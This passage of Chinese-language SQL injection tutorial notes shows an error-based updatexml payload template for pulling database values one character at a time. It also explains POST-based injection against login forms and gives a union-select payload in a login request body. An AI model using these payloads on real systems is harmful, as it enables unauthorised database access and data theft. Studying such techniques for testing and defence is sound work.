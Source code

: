 ```mysql
# 获取数据内容ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(字段名,第x位,1)))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```

![image-20250222165102007](static/image/image-20250222165102007.png)

### POST注入

> 通过单引号闭合及注释来构造sql语句，用户登录的post请求一般情况下都是用盲注，因为该类项目大多都通过判断sql语句是否执行成功来决定登录成功与失败。

```mysql
# 以下是通过post请求进行联合查询注入的例子
users=test' and 1=2 union select 1,version(),3-- -&pwd=test123
```
